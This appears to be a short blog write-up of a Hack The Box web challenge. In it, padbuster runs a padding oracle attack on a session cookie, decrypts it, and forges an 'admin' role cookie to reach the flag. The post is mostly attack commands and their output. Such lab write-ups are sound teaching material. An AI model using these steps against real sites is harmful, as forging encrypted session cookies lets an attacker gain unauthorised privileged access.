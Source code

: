 ```yaml
---
title:  "Oracle Padding"
date:   2021-08-05 21:15:00 +0000
categories: [techniques]
tags: [burp, web exploitation]
---
```



STEP 1
======
```
padbuster http://docker.hackthebox.eu:37742 zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0
```

*** Response Analysis Complete ***

The following response signatures were returned:


ID# Freq Status Length Location
    
1 256 302 0 profile.php


STEP 2
======
```
padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0
```

*** Finished ***

[+] Decrypted value (ASCII): {"user":"bdmin","role":"user"}

[+] Decrypted value (HEX): 7B2275736572223A2262646D696E222C22726F6C65223A2275736572227D0202

[+] Decrypted value (Base64): eyJ1c2VyIjoiYmRtaW4iLCJyb2xlIjoidXNlciJ9AgI=


STEP 3
======
```
padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"
```

*** Finished ***

[+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D


STEP 4
======
We add the newly made encrypted value of "role=admin" to the cookies and we find the flag.


Before
------
![img-description](/images/Oracle-Padding-1.png)
_BEFORE - encrypted value of "role=admin" to the cookies_


After
-----
![img-description](/images/Oracle-Padding-2.png)
_AFTER - encrypted value of "role=admin" to the cookies_



